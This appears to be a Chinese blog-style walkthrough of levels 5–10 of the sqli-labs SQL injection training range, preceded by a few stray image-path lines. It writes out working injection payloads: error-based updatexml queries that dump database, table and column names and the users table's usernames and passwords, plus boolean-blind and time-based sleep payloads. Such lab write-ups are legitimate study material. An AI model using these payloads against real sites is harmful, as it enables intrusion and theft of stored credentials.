






# 本篇文章是关与sal-labs靶场5-10关的解题过程。其知识点与sql注入相关。
## 第五关

首先我们 ?id=1 发现显示 you are in ，需要我们进行盲注。

尝试?id=1'根据报错确定用单引号闭合

然后我们继续尝试爆出它的数据库名?id=1' and updatexml(1,concat(0x7e,database()),1) --+ 

接着尝试爆出所有表名?id=1' and updatexml(1,substr(concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1,31),1) --+ 

然后继续尝试爆出users表的列名?id=1' and updatexml(1,substr(concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')),1,31),1) --+ 

最后尝试爆出账号和密码，中间用id隔开
?id=1' and updatexml(1,substr(concat(0x7e,(select group_concat(username,id,password) from users)),1,31),1) --+  对于不过updatexml函数一次最多只能爆出32个字符，故我们可以修改substr的第二个参数让它爆出后续的数据。

## 第六关
先尝试?id=1' 结果无报错显示，然后用?id=1"结果出现报错，根据界面显示确定用双引号来闭合。
接下来的步骤与第五关一致，不过多赘述。
## 第七关
本题涉及一句话木马暂时放一边。
## 第八关
开始我们发现当我们输入成功时显示 you are in，不正确时页面中什么都不会显示，故用布尔盲注。

然后通过二分法去构造语句去确定数据库长度?id=1' and length(database())>1 --+ 

最终确定长度为8.

这里通过构造?id=1'and (ord(substr(database(),1,1)))=115 --+ 发现数据库第一位为s，接下来的功夫就是逐步改变substr的第二个参数以及等号后的数字，最终爆出数据库名为security。

这个是来爆出security的表名。?id=1'and (ord(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)))=101 --+
接下来的操作就是爆出security的列名，然后改limit的参数，改等号后的数字。

## 第九关
开始我们不论输入什么发现页面永远显示 you are in，故用时间盲注尝试下。
开始尝试用?id=1' and  if(1=1,sleep(5),2) --+来尝试时延，发现页面缓冲5秒才刷新成功，故注入点位单引号。
接下来就是把if函数的第一个参数换为第八关中and后面的语句即可，操作基本时一通百通的。

## 第十关
跟第九关一样，不过这次的闭合点时双引号，剩下的操作与第九关一样，不过多赘述。